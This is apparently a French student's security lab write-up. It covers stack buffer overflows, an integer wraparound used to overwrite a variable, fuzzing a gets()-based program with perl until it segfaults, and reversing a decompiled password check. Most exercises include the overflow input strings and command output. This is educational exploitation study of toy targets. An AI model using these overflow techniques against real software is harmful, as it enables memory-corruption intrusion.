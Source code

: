# Securité - TP 3

---

## Exercice 1

Pour changer la variable `modified`, il faut surcharger le buffer lorsque l'on rentre le string, de manière à écrire au delà de la mémoire attribuée au buffer et ainsi changer le string. 

Ainsi, en rentrant 67 caractères, nous arrivons à changer modified : `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa`. 

## Exercice 2

### 1.

Le programme prend en paramètre 2 strings ainsi que leur nombre de caractères. Il rend ainsi dans le buffer les 2 strings concaténés, ainsi que les tailles de 2 strings additionnés. 
Par contre, si on ne donne pas la bonne taille pour les 2 strings (par exemple une taille plus petite que la taille réel du string), alors seul le nombre de caractères spécifié en paramètre sera pris dans le string. 

**Exemple :**

```bash
./exo 2 coucou bateau 6 6 ---> buffer : coucoubateau, len1+len2 = 12
./exo 2 coucou bateau 5 6 ----> buffer : coucobateau, len1+len2 = 11
```

### 2.

Un unsigned char fait 1 octet.

### 3.

Pour changer la valeur de secret, il faut tout simplement que la valeur de len1 + len2 soit supérieure à 255. 

### 4.

Commande qui fonctionne : 

```bash
./a.out a BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB 255 161
``` 

Approche a expliquer....


## Exercice 3

### code du Main décompilé : 

```c
undefined4 main(void) {

  char *pcVar1;
  size_t sVar2;
  int iVar3;
  char local_58 [24];
  undefined2 local_40;
  char acStack_3c [32];
  uint local_1c;
  
  builtin_strncpy(local_58,"`a_kileh]pekj[]ni[naqooe",0x18);
  local_40 = 0x61;
  puts("=== Break My ARM ===");
  printf("Password: ");
  pcVar1 = fgets(acStack_3c,0x1e,stdin);

  if (pcVar1 != (char *)0x0) {

    sVar2 = strcspn(acStack_3c,"\n");
    acStack_3c[sVar2] = '\0';
    local_1c = 0;

    while (sVar2 = strlen(acStack_3c), local_1c < sVar2) {
      acStack_3c[local_1c] = acStack_3c[local_1c] + -4;
      local_1c = local_1c + 1;
    }

    iVar3 = strcmp(acStack_3c,local_58);

    if (iVar3 == 0) {
      puts("\nCongrats! Flag is the password");
    }
    else {
      puts("\nNope. You need to feel the Force, young Padawan.");
    }
  }

  return 0;
}
```


### Explication du programme

**Initialisation des variables :**

* local_58 : Contient une chaîne de caractères initialisée avec "a_kileh]pekj[]ni[naqooe".
* acStack_3c : Utilisé pour stocker le mot de passe entré par l'utilisateur.

### Affichage et entrée de l'utilisateur

Le programme affiche "=== Break My ARM ===", puis demande un mot de passe via la fonction fgets, qui stocke le mot de passe saisi dans la variable acStack_3c.

### Décalage des caractères du mot de passe

Ensuite, il y a une boucle while qui itère sur chaque caractère de la chaîne acStack_3c. Chaque caractère est décrémenté de 4 (c'est-à-dire que chaque caractère est décalé de -4 dans la table ASCII).

### Comparaison avec la chaîne codée en dur

Le mot de passe modifié est ensuite comparé à la chaîne codée en dur dans local_58 : "a_kileh]pekj[]ni[naqooe".
Si le mot de passe modifié correspond à cette chaîne, le programme affiche "\nCongrats! Flag is the password".
Sinon, il affiche "\nNope. You need to feel the Force, young Padawan.".

### Trouver le mot de passe

Le programme attend un mot de passe décalé de -4 par rapport à la chaîne "a_kileh]pekj[]ni[naqooe". En ajoutant 4 à chaque caractère, le mot de passe correct à entrer est "e_compilationbareussi".



## Exercice 4

## 1.)

La fonction `gets()` est signalée comme dangereuse par le compilateur. Il est connu que cette fonction permet un buffer overflow car elle ne limite pas la quantité de données saisies. Cela signifie que si un utilisateur entre plus de 128 caractères (la taille du buffer), les données supplémentaires vont déborder en mémoire, écrasant d'autres variables ou le retour d'adresse du programme.

```bash
clang -o rop vulnerable.c -m64 -fno-stack-protector -Wl,-z,relro,-z,now,-z,noexecstack -static

vulnerable.c:8:5: warning: implicit declaration of function 'gets' is invalid in C99 [-Wimplicit-function-declaration]
    gets(buff);
    ^
1 warning generated.
/usr/bin/ld: /tmp/vulnerable-90c7ba.o: in function `main':
vulnerable.c:(.text+0x23): warning: the `gets' function is dangerous and should not be used.
```

## 2.) 

Première série de tests :

```bash
perl -e 'print "A"x150' | ./rop
perl -e 'print "A"x200' | ./rop
perl -e 'print "A"x300' | ./rop
perl -e 'print "A"x350' | ./rop
perl -e 'print "A"x400' | ./rop

You password is incorrect
You password is incorrect
[1]    1842712 done                perl -e 'print "A"x200' | 
       1842713 segmentation fault  ./rop
You password is incorrect
[1]    1842714 done                perl -e 'print "A"x300' | 
       1842715 segmentation fault  ./rop
You password is incorrect
[1]    1842716 done                perl -e 'print "A"x350' | 
       1842717 segmentation fault  ./rop
You password is incorrect
[1]    1842718 done                perl -e 'print "A"x400' | 
       1842719 segmentation fault  ./rop
``` 

Seconde série de tests : 

```bash
perl -e 'print "A"x160' | ./rop
perl -e 'print "A"x170' | ./rop
perl -e 'print "A"x180' | ./rop
perl -e 'print "A"x190' | ./rop
perl -e 'print "A"x195' | ./rop

You password is incorrect
[1]    1842722 done                perl -e 'print "A"x160' | 
       1842723 segmentation fault  ./rop
You password is incorrect
[1]    1842724 done                perl -e 'print "A"x170' | 
       1842725 segmentation fault  ./rop
You password is incorrect
[1]    1842726 done                perl -e 'print "A"x180' | 
       1842727 segmentation fault  ./rop
You password is incorrect
[1]    1842728 done                perl -e 'print "A"x190' | 
       1842729 segmentation fault  ./rop
You password is incorrect
[1]    1842730 done                perl -e 'print "A"x195' | 
       1842731 segmentation fault  ./rop
```

150 caractères ne suffisent pas pour causer un segmentation fault, mais à partir de 160 caractères, le buffer déborde et l'écrasement se produit.


## Exercice 5

### Analyse du code

L'argument passé (via argv[1]) est copié dans le tampon buffer avec strcpy(), mais il n'y a pas de vérification sur la taille de l'argument. Etant donné que le buffer est déclaré avec une taille 64, cela ouvre la porte à une vulnérabilité de dépassement de tampon. Le dépassement du tampon pourrait permettre d'écraser des variables situées après buffer en mémoire, ici la variable modified.

* La variable modified est située après buffer en mémoire. Le tampon a une taille de 64 octets, donc il faut envoyer au moins 64 octets pour remplir buffer, puis 4 octets supplémentaires pour écraser modified.

* Pour exploiter le programme, nous pouvons utiliser cette chaine d'attaque :

    
`./a.out AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA \x64\x63\x62\x61`